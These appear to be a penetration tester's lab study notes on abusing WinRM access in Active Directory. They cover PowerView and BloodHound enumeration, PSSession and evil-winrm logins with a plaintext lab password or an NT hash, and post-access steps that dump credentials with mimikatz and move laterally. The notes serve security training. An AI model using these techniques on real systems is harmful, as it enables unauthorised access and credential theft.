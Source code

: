 
## Enumerating the Remote Management Users Group

```powershell
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
```

## Bloodhound Custom Cypher Query
We can also utilize this custom `Cypher query` in BloodHound to hunt for users with this type of access. This can be done by pasting the query into the `Raw Query` box at the bottom of the screen and hitting enter.

```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

![[Pasted image 20251004191639.png]]

### Adding the Cypher Query as a Custom Query in BloodHound
![[Pasted image 20251004191712.png]]

## Establishing WinRM Session

### From Windows

```powershell
$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred
```

### From Linux

```bash
gem install evil-winrm
evil-winrm -i 10.129.201.234 -u forend -p <password>
# or use -H <NTHash> for hash auth
```

## Typical post-access actions

1. Enumerate user and system artifacts: `whoami /priv`, scheduled tasks, services, credential files.
    
2. Dump tokens and credentials if permitted (mimikatz, secrets).
    
3. Search for sensitive files and configuration data (`web.config`, .env, backups).
    
4. Attempt lateral moves to other hosts using harvested creds/hashes.
    

## Quick commands / examples

```powershell
# Check privileges once remote
whoami /priv

# PowerView enumeration
Get-NetUser
Get-NetComputer
Get-NetLocalGroupMember -ComputerName TARGET -GroupName "Administrators"
```

## Operational notes

- WinRM often exists to allow management without local admin; still valuable for lateral movement.
    
- Add custom BloodHound query to find WinRM-capable accounts for repeated use.
    
- Use `-NoProfile`/`-ExecutionPolicy Bypass` cautiously depending on environment.
    

---

